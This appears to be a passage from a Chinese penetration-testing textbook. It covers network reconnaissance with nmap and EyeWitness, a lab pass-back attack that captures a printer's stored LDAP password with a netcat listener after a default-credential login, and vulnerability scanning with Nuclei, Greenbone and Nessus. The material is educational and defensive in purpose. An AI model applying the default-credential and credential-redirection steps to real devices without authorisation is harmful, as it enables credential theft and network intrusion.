利用这些信息，我们可以扫描 `192.168.40.0/24` 子网，查找活动设备。`nmap` 工具非常适合这种任务，并且已经问世数十年。从操作角度来看，我们查找的是网络上可用且具有开放端口的设备。我们可以使用类似下面的命令来完成：

```
$ sudo nmap -sV -sC 192.168.40.0/24 -oA nmap_output
```

该命令扫描我们所在的本地网络，并搜索最常见的 1,000 个 TCP 端口。它还会尝试使用 `-sV` 参数对可用服务进行指纹识别，使用 `-sC` 参数运行一些常见的枚举脚本，然后使用 `-oA` 参数将输出保存为多种格式。在后续工具中我们将使用的最重要格式之一是 XML 类型；在我们的示例中，输出将保存为 `nmap_output.xml`。

现在我们对网络中可用的资产有了大致了解，接下来需要确定哪些资产具有可供登录的服务。有许多方法可以帮助确定这一点，但识别 Web 服务最简单的方法之一是使用 `EyeWitness` 程序。该程序会读取我们创建的 XML 格式文件，并自动为适用的 Web 服务截取屏幕截图以供我们查看。使用包含已编译截图的报告，我们可以快速审查并判断一个网站是否可能易受攻击，或者是否值得进一步调查。

`EyeWitness` 可以使用以下命令运行：

```
$ eyewitness -x nmap_output.xml --delay 15
```

此命令读取我们用 `nmap` 创建的 XML 文件，然后等待 15 秒，为每个 Web 服务截取屏幕截图。延迟非常重要，因为许多物联网设备功耗较低，加载网页所需的时间可能比预期更长。



图 2.10 通过 EyeWitness 发现一个潜在有价值的打印机页面。

就我们的示例而言，我们识别出子网上有一台打印机，它带有一个可供我们查看的 Web 服务器。对于实际运营的网络，我们会尽可能多地识别这些系统，以便跟踪并在以后使用。

关于 `EyeWitness` 还有更酷的一点？如果它检测到已知类型的设备，就能提供默认凭据！这些凭据存储在 `EyeWitness` 的 `signatures.txt` 文件中，并在检测到设备时自动放入报告中。



```
1 Integrated Dell Remote Access Controller|(Dell iDRAC) ...
2 ACE 4710 Device Manager|Cisco|(ACE 4710 Device Manager) ...
3 ATutor;form_login_action;/gad_search.php|(ATutor Web CMS) ...
4 Apache Lenya;lenya.action=introspect|(Apache Lenya) ...
5 Polycom RSS 2000|(Polycom RSS 2000) ...
6 Polycom;HDX 8000 HD|(Polycom HDX 8000) admin/<SerialNumberOfDevice>
7 Drupal.settings|(Drupal) admin/<assigned at install>
8 var daisy;daisy.site;daisy.site.name|(Daisy CMS) ...
```

图 2.11 EyeWitness 源码中检测到设备时使用的默认凭据示例。

## 评估默认配置

这些问题大多依赖于识别那些原本可能不为人知或被遗忘的资产。打印机和 IP 摄像头是最常因默认配置而受到攻击的设备之一，因为它们的密码通常非常弱。

现在你可能会问自己，如果别人能登录打印机，我为什么要担心呢？这值得担心吗？令人惊讶的是，答案是肯定的！如今打印机和多功能设备的交互性很强，这些设备通常会以明文形式存储凭据，供攻击者收集。以用于发送电子邮件的扫描仪为例：该设备需要向电子邮件服务器进行身份验证才能将扫描件作为附件发送的可能性很高。如果我们能用默认凭据登录打印机，然后收集电子邮件凭据，就可以登录该电子邮件账户，甚至可能访问域中的其他资源。

IP 摄像头通常也会被忘记更改密码，不过，它们包含已配置凭据信息的可能性要小得多。另一方面，这些摄像头提供了通往物理世界的直接通道——我们能够看到并跟踪建筑物内外的人员。通过访问物理媒介收集到的额外情报量，可以给攻击者带来显著优势。

尝试利用这些系统通常可以通过使用默认凭据登录设备来实现。如果认证成功，我们需要密切关注系统上是否存储了任何凭据。

关于我们识别出的那台潜在打印机，也就是本地子网上的 `Glitchomatic` 网站，我们需要密切关注它可能如何配置。我们看到有一个网络设置页面，引起了我们的兴趣，因为其中可能包含我们可以窃取的凭据。然而，点击网络设置页面后，我们发现需要先进行身份验证。



图 2.12 未认证前无法查看设置。


我们可以先尝试使用非常常见的凭据登录，但这并没有取得任何进展。这些常见或容易猜测的凭据包括 `admin:admin` 或 `admin:1111`。对网页进行审查后，我们发现该网站有一个文档页面，我们应该仔细调查。

### Glitchomatic Printware

> "打印变得……有趣了！"

- 未认证。
- 用户名
- 密码
- 登录
- 打印
- 打印日志
- 网络设置
- 查找用户
- 文档

欢迎来到 Glitchomatic Printware！

在 Glitchomatic，我们拥抱意外，并将其变成一场冒险！打印机可能自有主张，但正是这一点，让我们觉得打印是一场冒险！无论你是在打印重要文件还是表情包，都要准备好迎接难以预测的体验。

- 打印：释放混乱，让我们的打印机在你的页面上创造出迷幻的图案。
- 打印日志：深入打印机神秘的日志深处，发现隐藏的秘密。

打开文档后，我们得到了一份 PDF。对 PDF 进行进一步分析和搜索后发现，文档中提供了设备自带的默认凭据。





尝试这些新发现的凭据后发现它们有效！我们现在可以登录打印机上的网站，并访问网络设置页面上的信息。这包括设备上似乎已经保存的一组凭据。

### Glitchomatic Printware

> "打印变得……有趣了！"

### 设置！

欢迎来到 Glitchomatic 打印机迷人的 LDAP 配置世界，在这里，理智与技术的界限以令人愉悦的方式模糊交融。准备好迎接一段令人兴奋的旅程吧，我们将深入目录服务的领域，踏上驯服狂野 LDAP 巨兽的神奇冒险。

- 已登录为：`admin`
- 退出登录
- 打印
- 打印日志
- 网络设置
- 查找用户
- 文档

`ldapprinter` 账户的凭据存储在此：

| 字段 | 值 |
| --- | --- |
| 协议 | `ldap` |
| 服务器 | `192.168.40.198` |
| 端口 | `389` |
| 用户名 | `ldapprinter@goblins.local` |
| 密码 | `********` |

保存 | 重置为上次已知正常配置

图 2.15 以 `admin` 身份登录打印机后，我们可以看到设备上有一组已配置的凭据。

现在，在此页面中，我们可以看到有一组已配置的 LDAP 凭据。虽然它显示了一个密码字段，但重要的是要注意，检查该字段后发现密码并未存储在这里。密码很可能留在打印机上，并且出于保护凭据的目的，故意不返回给网页。



```
<!-- We can't place the password in the DOM, that would be crazy!! -->
<tr>
<td></td>
<td>
<input type="password" name="password" value="********" />
</td>
</tr>
</tbody>
```

图 2.16 确认密码不在 DOM 中，且很可能是一个占位符。

然而，由于我们对该设备拥有管理权限，与其尝试让密码显示在网页上，不如重定向打印机发送密码的目标。我们可以不将其绑定到 `192.168.40.198` 的 IP，而是配置它连接到我们这里——此时它会使用存储的密码！

为此，我们将更改网络设置页面上的服务器。注意不要更改用户名或密码，因为这样很容易覆盖我们试图获取的凭据。如果覆盖了这些，我们就会失去进一步访问的机会（甚至可能导致付费客户的运营中断——这可不妙！）。

在我们控制的主机上用 `nc -nvlp 389` 启动一个简单的 netcat 监听器后，我们可以尝试测试连接。看起来我们非常成功！



图 2.17 通过重定向打印机的凭据发送目标，成功窃取到一组明文凭据。

由于 LDAP 以明文形式发送密码，我们可以利用这一点，使用新获取的凭据连接到域。这种攻击被称为 Pass-back（回传攻击），即我们可以更改凭据的发送目标。通常，这种方式在环境中获得初始立足点非常有效。

## 未修补的服务

未修补的服务仍然是大多数环境中重要的感染途径。这是因为许多公司的补丁周期往往滞后于威胁行为者利用这些漏洞的能力。补丁可用性与升级之间的时间差可能形成攻击窗口，使攻击者能够获得环境的最初访问权限——许多著名的全球网络攻击都发生过这种情况。

对于我们白帽黑客来说，我们需要能够扫描并枚举已知缺失的补丁以修复风险。我们可以利用多种不同的工具来帮助发现这些威胁，许多付费工具在发现这些威胁方面也做得非常出色。

### WannaCry

2017 年 5 月发生的 WannaCry 攻击是一场利用 SMB 协议已知弱点的全球性网络攻击。微软于 2017 年 3 月 14 日发布安全补丁 MS17-010 修复了这些漏洞，并指出如果攻击者向 Microsoft Server Message Block 1.0（SMBv1）服务器发送特制消息，成功利用该漏洞可能导致远程代码执行。

2017 年 5 月 12 日，也就是微软发布补丁两个月后，WannaCry 攻击开始在网上复制传播。作为一种蠕虫，WannaCry 感染一台设备后，会利用该设备对其他机器发起更多攻击。这导致攻击发生第一天就有超过 23 万台机器被感染。²



图 2.18 WannaCry 勒索软件截图。该攻击利用了一个已有补丁可用的漏洞，而该补丁已发布两个月。

从 WannaCry 中需要理解的重要一点是，补丁当时是可用的；然而，许多组织并未费心安装这些修复程序。这一时间差给了威胁行为者将漏洞武器化并制造蠕虫的时间。组织还应基于严重性及其网络的适用性来优先修补。对于其运行的服务，严重性达到关键级别的应当采用快速修补周期，而不是等待常规的修补窗口。此外，组织应了解哪些端口和服务是对互联网开放的——如果 SMB 不对互联网开放，攻击者就无法利用 WannaCry。

### MOVEit

2023 年的 MOVEit 攻击仍然是补丁管理方面一个令人警醒的案例。虽然该漏洞利用暴露了一个此前未知的漏洞，但 Progress Software 在初始利用发生后的两周内创建并发布了补丁。然而，威胁行为者在补丁发布后仍能继续利用该漏洞数月之久。

Cl0p 勒索软件团伙发现并利用了一个零日 SQL 注入漏洞（`CVE-2023-34362`），该漏洞允许他们注入恶意 SQL 命令并访问敏感数据。这些攻击最初始于 2023 年 5 月 27 日——Progress Software 直到 6 月 6 日才发布补丁。攻击与补丁可用性之间的时间差为许多组织创造了一个危险的漏洞窗口；此时，许多管理员决定将其 MOVEit 服务从互联网上移除。

该漏洞影响了全球大量组织，因为许多企业和政府机构依赖 MOVEit 软件来存储和传输数据。在补丁可用之前，了解攻击并据此将服务从互联网上移除，是这些攻击中的一个重要因素。此外，一旦补丁就绪，能够快速安装新补丁同样至关重要。

## 查找已知漏洞

我们可以利用许多不同的工具来尝试定位已知漏洞的存在。这些工具将为我们提供应用补丁并将风险降至可接受水平所需的信息。在存在显著暴露窗口的环境中（例如可被互联网访问），我们需要确保这些漏洞得到迅速修补。

## Nuclei

Nuclei 工具集（后续章节会详细介绍）是由 Project Discovery 构建的基于模板的漏洞扫描器。根据其适用模板中的已知漏洞，它会扫描这些错误配置或已知的易受攻击的软件版本。扫描结果通过一个简单的界面报告给操作员，使其能够理解并采取相应措施。

对于 MOVEit 漏洞 `CVE-2023-36934`，我们可以使用一个可用于 Nuclei 的社区模板。该模板会在检测到的 MOVEit 实例中搜索可利用条件，并在存在漏洞时进行报告。根据 Project Discovery 的博客文章（Jaiswal 和 Maini），该模板会快速将易受攻击的实例报告给操作员以供参考。



图 2.19 使用 Nuclei 的 MOVEit 模板定位并报告存在漏洞的 MOVEit 实例。

Nuclei 的功能远不止于查找 MOVEit 中的漏洞。目前，社区已有超过 7,400 个可用于查找各种漏洞的模板。每个模板都针对特定条件进行搜索，并根据结果进行报告。

需要记住的是，Nuclei 是一个完全开源的扫描器和漏洞模板工具集。这使得整个社区都能受益于现有的模板以及随着工具集更新而新增的检测规则。与其他大多数开源工具一样，当其他贡献者添加新的功能和模板以发现更多风险时，它们会变得更加强大。贡献模板非常简单，本文作者已向 Project Discovery 贡献了几个模板，并建议其他人也这样做。

## GREENBONE SECURITY ASSISTANT

Greenbone Security Assistant（也称为 OpenVAS）是一个开源漏洞管理工具，可以扫描错误配置和缺失的补丁。该平台可以安装，并使用 Web 界面来管理和跟踪系统上发现的漏洞。该工具有多种安装方式，其文档位于 `https://greenbone.github.io/docs/latest/`。

安装完成后，我们可以登录 Web 界面并查看可用的工具集。界面中最初会显示几个仪表盘，同时我们也可以创建自己的仪表盘，以可视化所收集的扫描数据。



图 2.20 登录平台后 Greenbone Security Assistant 的仪表盘。

点击“Scans”按钮将打开一个新页面，其中包含有关使用 Greenbone 完成的扫描的信息。在页面左上角，有一个魔术棒图标，可帮助配置新扫描的向导。



图 2.21 点击“Scans”按钮，然后点击魔术棒图标，即可在任务向导中配置新扫描。

然后，我们可以输入要扫描的资产的 IP 或 FQDN。



图 2.22 在任务向导中添加目标以启动新扫描。

点击“Start Scan”按钮后，我们将看到扫描状态显示为“Requested”，并开始准备运行。



图 2.23 点击开始按钮后，我们可以看到扫描状态显示为“Requested”。

几分钟后，我们会看到扫描正在进行中。不同主机之间的扫描时间可能差异很大，具体取决于可用的服务或应用程序数量。通常，这些扫描需要较长时间，因为它们非常全面，所以请耐心等待！



图 2.24 扫描正在进行，请耐心等待！

我们可以通过点击“Reports”下的数字来查看并检查进行中扫描的发现结果。这将打开一个新页面，我们可以在其中查看已识别的项目。



图 2.25 点击扫描的“Last Report”以打开包含已知发现结果的页面。

扫描完成后，我们可以审查发现结果以识别风险。每个发现结果都代表一个潜在风险，作为安全分析师，我们需要验证并确保这些发现结果是有效的。报告误报或完全不适用的漏洞是失去可信度的必然方式！

点击“**Results**”选项卡将显示扫描的所有发现结果。其中几个重要的发现结果按严重性排序。在此次扫描中，我们可以看到大量**高**严重性发现结果，表明该资产可能容易受到多种类型的攻击。



图 2.26 查看 Greenbone 扫描的结果，显示存在大量高严重性发现结果。

要查看特定发现结果的详细信息，我们可以点击漏洞标题。这将在表格中打开一个新区域，其中包含有关发现结果的相关信息。



图 2.27 查看报告中特定漏洞的信息。

我们也可以随时将扫描结果导出为其他格式。要获取此扫描的副本，我们可以点击页面左上角的导出图标。



图 2.28 已完成扫描的导出和报告图标。

将出现一个弹出页面，我们可以选择要使用的特定格式。为了保存和可读性的需要，PDF 是存储这些信息的理想选择。可以将此 PDF 传递给管理层，以解释发现结果的影响和重要性。



图 2.29 选择一种格式来报告扫描中的发现结果。

完成后，PDF 将自动下载。查看此文件可以看到一定数量的信息，我们可以将其打印出来作为正式报告，如图 2.30 所示。

## 扫描报告

2024年1月14日

### 摘要

本文档报告了自动安全扫描的结果。所有日期均使用“协调世界时”（缩写为“UTC”）显示。任务为“对IP `192.168.40.29`进行即时扫描”。扫描开始于2024年1月14日星期日15:12:08 UTC，结束于2024年1月14日星期日16:08:08 UTC。报告首先总结了发现的结果。然后，针对每个主机，报告描述了发现的每个问题。请参考每个描述中的建议，以解决问题。

### 目录

- 1 结果概述 2

  - 1.1 主机认证 .................... 2

- 2 每台主机的结果 2

  - 2.1 `192.168.40.29` .................... 2

图2.30 Greenbone PDF报告封面。

## Nessus

Nessus是Tenable公司出品的一款付费安全扫描器。这是另一个出色的漏洞扫描工具，可用于跟踪和识别缺失补丁、不安全设置以及随时间推移的改进等情况。由于其简单性和有效性，Nessus成为许多组织和安全专业人员中流行的工具。

Nessus有一个名为Nessus Essentials的免费层级，面向教育工作者、学生和爱好者。该版本工具每次扫描限制为16个IP地址，但有助于入门，并尝试让组织领导层支持购买。安装程序时，可以在Nessus的设置界面轻松配置Essentials许可证。

完成许可配置后，Nessus将需要下载并编译最新的插件。这确保扫描器能够获得有关搜索和评估漏洞项的最新信息。安装的这一部分可能需要一些时间，根据设备的不同，最多需要20到30分钟。



图2.31 配置许可后，Nessus需要下载并编译插件。



图2.32 初始安装后插件正在编译，在此之后才能开始扫描。

与Greenbone类似，我们可以通过向导配置一个新的扫描。对于Nessus，这是“新建扫描”按钮，如图2.33所示。


图2.33 在Nessus中单击“新建扫描”按钮以配置开始新扫描。

这将打开“扫描模板”页面，我们可以在其中选择要执行的扫描类型。在大多数情况下，选择“基本网络扫描”即可满足我们尽可能多地枚举漏洞的需求。


图2.34 选择要执行的扫描类型。

此时，我们可以输入有关扫描的目标系统的信息。


图2.35 配置扫描名称和目标。

然后我们可以单击“播放”按钮启动扫描，如图2.36所示。这将立即启动扫描。


图2.36 单击“播放”按钮开始扫描。

我们可以查看系统发现的结果；但是，在扫描完成之前结果将不完整。完成后，我们将能够看到每台主机的扫描严重性。


图2.37 查看基于每台主机的扫描结果。

